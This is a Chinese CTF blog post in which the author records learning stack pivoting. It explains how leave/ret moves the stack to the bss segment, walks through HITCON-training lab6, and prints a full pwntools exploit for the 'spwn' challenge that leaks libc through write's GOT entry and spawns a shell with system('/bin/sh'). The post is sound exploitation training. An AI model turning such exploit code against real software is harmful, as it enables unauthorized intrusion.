








之前ciscn华东南线下的被打穿的题没有做出来，后面了解到考察点是栈迁移，现在就学习栈迁移技术做个记录
栈迁移适用于如下情况：
·可以控制的栈溢出的字节数较少，难以构造较长的 ROP 链
·开启了 PIE 保护，栈地址未知，我们可以将栈劫持到已知的区域。
·其它漏洞难以利用，我们需要进行转换，比如说将栈劫持到堆空间，从而在堆上写 rop 及进行堆漏洞利用
栈迁移的核心就是leave,ret，这条指令相当于
1 | mov esp, ebp # 将ebp的值赋给esp，会将esp也指向当前栈溢出漏洞的ebp基地址处 |
解释一下这两条指令
在有栈溢出的程序执行 leave 时，其分为两个步骤
① mov esp, ebp，这会将esp也指向当前栈溢出漏洞的ebp基地址处。
② pop ebp，这会将栈中存放的假ebp的值赋给ebp。即执行完指令之后，ebp便指向了ebp2，也就是保存了ebp2所在的地址。(ebp2即为我们需要迁移到的段的地址)
执行 ret 指令，会再次执行leave ret指令
执行 leave 指令，其分为两个步骤
① mov esp, ebp ，这会将esp指向ebp2。
② pop ebp，此时，会将ebp的内容设置为ebp2的值，同时esp会指向target function。
执行ret指令,这时候程序就会执行target function，当其进行程序的时候会执行
push ebp，会将ebp2值压入栈中，
mov ebp, esp，将ebp指向当前基地址。
也就是说我们溢出时，将原ebp覆盖成我们打算迁移到的地址，然后再leave,ret;就会将栈迁移到我们想要迁移的地方去了。结合gdb调试可知。
migration
例题用HITCON-trainning的lab6
查看文件信息

32位动态链接
IDA看一看

这里有个if条件，所以main函数只能执行一次，那泄露完地址之后就不能重新再打一遍payload了
栈的大小是0x28，read到0x40，所以溢出了，但是0x40-0x28=0x18的空间不够布置rop链来进行泄露地址等操作，所以我们将栈迁移到另外一块更大的空间来布置payload.
我们可以迁移到bss段
用pattern算偏移

因为我们需要将ebp覆盖为bss段的地址，所以减去4，那么就是填充40个a
再看看有什么函数可用的

有puts函数可以泄露
找合适的gadgets
1 | ROPgadget --binary migration --only 'leave|ret' |
1 | ROPgadget --binary migration --only 'pop|ret' |
整体思路可以简单理解为，第一次先把栈迁移到bss+0x500的地方去，然后第二次再去bss+0x400的地方泄露地址，然后第三次再回到0x500的地方去执行system(“/bin/sh”)
这个0x500，0x400都是随机取的，用0x600，0x700也是一样的
直接贴exp
1 | #coding=utf-8 |
泄露地址后的返回地址是pop ebx;ret 是为了保持栈平衡，但是我不知道为什么保持栈平衡填ret也不行，这个栈平衡的还有待研究。
spwn
这题做了3个晚上还是看着zhz师傅的exp才搞出来的，实在痛苦，不过还是通过调exp学到些东西。
首先，放在payload开头的需要迁移到的地址，buf1、buf2这些，是在执行完当前函数之后leave ret会直接跳转到该地址去，从该地址继续执行。然后也就是说开头的buf1地址是会覆盖掉ebp的，然后后面的函数地址就会覆盖掉返回地址，继而能执行后面布置的payload。
首先还是照例查看文件信息

IDA,F5,溢出函数就这一个

s是应该是不会溢出的，在函数里没有定义s的大小，点进去s看一下

这个s就是直接read到bss段里面去了，一块很大的空间，基本上不可能有溢出，然后就是buf的溢出了，这种溢出字节不够的显然是用栈迁移来做了
gdb算一下偏移

#coding=utf-8
from pwn import*
from LibcSearcher import*
p=process("./spwn")
#p=remote("node3.buuoj.cn",25986)
elf = ELF("./spwn")
#libc = elf.libc
context.log_level = 'debug'
context.terminal = ['terminator','-x','sh','-c']
leave_ret = 0x08048408
buf1 = 0x804A400
buf2 = 0x804A450
padding = "a" * 24
p.recvuntil("name?")
payload2 = p32(buf1) + p32(elf.plt['write']) + p32(leave_ret) + p32(0x1) + p32(elf.got['write']) + p32(0x4)
payload2 += "a" * (0x100-len(payload2)) #直接填满0x804a300到0x804a400之间的空闲位置，以便只需要调用一次read即可
payload2 += p32(buf2) + p32(elf.plt['read']) + p32(leave_ret) + p32(0x0) + p32(buf2) + p32(0x30)
#gdb.attach(p)
p.send(payload2)
p.recvuntil("say?")
payload = padding + p32(0x804A300) + p32(leave_ret)
p.send(payload)
=========================leak libc address=========================
write_addr = u32(p.recv(4))
#write_addr = u32(p.recvuntil("\xf7")[-4:])
libc = LibcSearcher('write',write_addr)
offset = write_addr - libc.dump('write')
sys_addr = offset + libc.dump('system')
binsh_addr = offset + libc.dump('str_bin_sh')
log.success("write_addr==>" + hex(write_addr))
log.success("sys_addr==>" + hex(sys_addr))
log.success("binsh_addr==>" + hex(binsh_addr))
=========================get shell=================================
payload3 = p32(buf2) + p32(sys_addr) + p32(0xdeadbeef) + p32(binsh_addr)
p.send(payload3)
p.interactive()参考链接:
https://ctf-wiki.github.io/ctf-wiki/pwn/linux/stackoverflow/fancy-rop-zh/#frame-faking
https://veritas501.space/2017/05/23/HITCON-training%20writeup/
https://yof3ng.github.io/2018/10/25/Pwn-10%E6%9C%8825-Hitcon-%E4%B8%89/
https://gdufs-king.github.io/2019/03/11/%E8%8A%B1%E5%BC%8F%E6%A0%88%E6%BA%A2%E5%87%BA/
https://tina2114.github.io/2019/10/18/%E5%AF%B9%E4%BA%8E%E6%A0%88%E8%BF%81%E7%A7%BB%E6%8A%80%E6%9C%AF%E7%9A%84%E5%AD%A6%E4%B9%A0/